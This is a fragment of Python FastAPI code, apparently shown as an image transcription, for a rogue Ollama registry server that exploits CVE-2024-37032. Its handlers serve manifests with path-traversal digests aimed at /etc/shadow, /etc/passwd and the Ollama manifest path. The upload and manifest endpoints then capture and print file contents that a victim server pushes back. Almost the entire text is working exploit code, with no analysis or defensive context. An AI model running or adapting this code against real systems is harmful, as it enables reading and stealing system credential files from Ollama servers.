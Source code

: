 ```python
    return 'cve-2024-37032-test'

@app.head(f"/root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest")
async def fake_latest_head(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../root/.ollama/models/manifests/dev-lan.bi0x.com/rogue/bi0x/latest"
    return ''

@app.get(f"/root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest", status_code=206)
async def fake_latest_get(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../root/.ollama/models/manifests/dev-lan.bi0x.com/rogue/bi0x/latest"
    response.headers["E-Tag"] = "\"../../../../../../../../../../../../../root/.ollama/models/manifests/dev-lan.bi0x.com/rogue/bi0x/latest\""
    return {"schemaVersion":2,"mediaType":"application/vnd.docker.distribution.manifest.v2+json","config":{"mediaType":"application/vnd.docker.container.image.v1+json","digest":"../../../../../../../../../../../../../etc/shadow","size":10},"layers":[{"mediaType":"application/vnd.ollama.image.license","digest":"../../../../../../../../../../../../../../../../../../../tmp/notfoundfile","size":10},{"mediaType":"application/vnd.ollama.image.license","digest":"../../../../../../../../../../../../../etc/passwd","size":10},{"mediaType":"application/vnd.ollama.image.license","digest":f"../../../../../../../../../../../../../../../../../../../root/.ollama/models/manifests/{HOST}/rogue/bi0x/latest","size":10}]}

@app.head("/tmp/notfoundfile")
async def fake_notfound_head(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../tmp/notfoundfile"
    return ''

@app.get("/tmp/notfoundfile", status_code=206)
async def fake_notfound_get(response: Response):
    response.headers["Docker-Content-Digest"] = "../../../../../../../../../../../../../tmp/notfoundfile"
    response.headers["E-Tag"] = "\"../../../../../../../../../../../../../tmp/notfoundfile\""
    return 'cve-2024-37032-test'

# for ollama push
@app.post("/v2/rogue/bi0x/blobs/uploads/", status_code=202)
async def fake_upload_post(callback_data: Request, response: Response):
    print(await callback_data.body())
    response.headers["Docker-Upload-Uuid"] = "3647298c-9588-4dd2-9bbe-0539533d2d04"
    response.headers["Location"] = f"http://{HOST}/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04?_state=eBQ2_sxwOJVy8DZMYYZ8wA8NBrJjmdINFUMM6uEZyYF7Ik5hbWUiOiJyb2d1ZS9sbGFtYTMiLCJVVUlEIjoiMzY0NzI5OGMtOTU4OC00ZGQyLTliYmUtMDUzOTUzM2QyZDA0IiwiT2Zmc2V0IjowLCJTdGFydGVkQXQiOiIyMDI0LTA2LTI1VDEzOjAxOjExLjU5MTkyMzgxMVoifQ%3D%3D"
    return ''

@app.patch("/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04", status_code=202)
async def fake_patch_file(callback_data: Request):
    print('patch')
    print(await callback_data.body())
    return ''

@app.post("/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04", status_code=202)
async def fake_post_file(callback_data: Request):
    print(await callback_data.body())
    return ''

@app.put("/v2/rogue/bi0x/manifests/latest")
async def fake_manifests_put(callback_data: Request, response: Response):
    print(await callback_data.body())
    response.headers["Docker-Upload-Uuid"] = "3647298c-9588-4dd2-9bbe-0539533d2d04"
```